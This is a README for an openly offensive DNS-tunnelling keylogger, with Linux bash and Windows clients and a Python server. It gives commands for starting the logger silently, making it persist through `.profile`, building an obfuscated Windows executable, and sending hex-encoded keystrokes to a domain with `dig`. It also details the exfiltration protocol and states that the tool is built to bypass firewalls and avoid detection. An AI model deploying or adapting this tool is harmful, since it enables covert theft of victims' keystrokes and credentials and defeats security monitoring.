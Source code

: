 # DNS Tunnel Keylogger
This post-exploitation keylogger will covertly exfiltrate keystrokes to a server. 

These tools excel at lightweight exfiltration and persistence, properties which will prevent detection. It uses DNS tunelling/exfiltration to bypass firewalls and avoid detection.
# Server
## Setup
The server uses python3.

To install dependencies, run `python3 -m pip install -r requirements.txt`
## Starting the Server
To start the server, run `python3 main.py`
```
usage: dns exfiltration server [-h] [-p PORT] ip domain

positional arguments:
  ip
  domain

options:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  port to listen on
```
By default, the server listens on UDP port 53. Use the `-p` flag to specify a different port.

`ip` is the IP address of the server. It is used in SOA and NS records, which allow other nameservers to find the server.

`domain` is the domain to listen for, which should be the domain that the server is authoritative for.

# Client
## Linux
The Linux keylogger is two bash scripts. `connection.sh` is used by the `logger.sh` script to send the keystrokes to the server. If you want to manually send data, such as a file, you can pipe data to the `connection.sh` script. It will automatically establish a connection and send the data.
### `logger.sh`
```
# Usage: logger.sh [-options] domain
# Positional Arguments:
#   domain: the domain to send data to
# Options:
#   -p path: give path to log file to listen to
#   -l: run the logger with warnings and errors printed
```
To start the keylogger, run the command `./logger.sh [domain] &> /dev/null && exit`. This will silently start the keylogger, and any inputs typed will be sent. The `&& exit` at the end will cause the shell to close on `exit`. Without it, exiting will bring you back to the non-keylogged shell. Remove the `&> /dev/null` to display error messages.

The `-p` option will specify the location of the temporary log file where all the inputs are sent to. By default, this is `/tmp/`.

The `-l` option will show warnings and errors. Can be useful for debugging.

`logger.sh` and `connection.sh` must be in the same directory for the keylogger to work. If you want persistance, you can add the command to `.profile` to start on every new interactive shell.
### `connection.sh`
```
Usage: command [-options] domain
Positional Arguments:
  domain: the domain to send data to
Options:
  -n: number of characters to store before sending a packet
```
## Windows
### Build
To build keylogging program, run `make` in the `windows` directory. To build with reduced size and some amount of obfuscation, make the `production` target. This will create the `build` directory for you and output to a file named `logger.exe` in the `build` directory.

`make production domain=example.com`

You can also choose to build the program with debugging by making the `debug` target.

`make debug domain=example.com`

For both targets, you will need to specify the domain the server is listening for.
## Sending Test Requests
You can use `dig` to send requests to the server:

`dig @127.0.0.1 a.1.1.1.example.com A +short` send a connection request to a server on localhost.

`dig @127.0.0.1 b.1.1.54686520717569636B2062726F776E20666F782E1B.example.com A +short` send a test message to localhost.

Replace `example.com` with the domain the server is listening for.

# Protocol
## Starting a Connection
A record requests starting with `a` indicate the start of a "connection." When the server receives them, it will respond with a fake non-reserved IP address where the last octet contains the id of the client.

The following is the format to follow for starting a connection: `a.1.1.1.[sld].[tld].`

The server will respond with an IP address in following format: `123.123.123.[id]`

Concurrent connections cannot exceed 254, and clients are never considered "disconnected."
## Exfiltrating Data
A record requests starting with `b` indicate exfiltrated data being sent to the server.

The following is the format to follow for sending data after establishing a connection: `b.[packet #].[id].[data].[sld].[tld].`

The server will respond with `[code].123.123.123`

`id` is the id that was established on connection. Data is sent as ASCII encoded in hex.

`code` is one of the codes described below.
## Response Codes
### `200`: OK
If the client sends a request that is processed normally, the server will respond with code `200`.
### `201`: Malformed Record Requests
If the client sends an malformed record request, the server will respond with code `201`.
### `202`: Non-Existant Connections
If the client sends a data packet with an id greater than the # of connections, the server will respond with code `202`.
### `203`: Out of Order Packets
If the client sends a packet with a packet id that doesn't match what is expected, the server will respond with code `203`. Clients and servers should reset their packet numbers to 0. Then the client can resend the packet with the new packet id.
### `204` Reached Max Connection
If the client attempts to create a connection when the max has reached, the server will respond with code `204`.
## Dropped Packets
Clients should rely on responses as acknowledgements of received packets. If they do not receive a response, they should resend the same payload.

# Side Notes
## Linux
### Log File
The log file containing user inputs contains ASCII control characters, such as backspace, delete, and carriage return. If you print the contents using something like `cat`, you should select the appropriate option to print ASCII control characters, such as `-v` for `cat`, or open it in a text-editor.
### Non-Interactive Shells
The keylogger relies on `script`, so the keylogger won't run in non-interactive shells.
## Windows
### Repeated Requests
For some reason, the Windows `Dns_Query_A` always sends duplicate requests. The server will process it fine because it discards repeated packets.
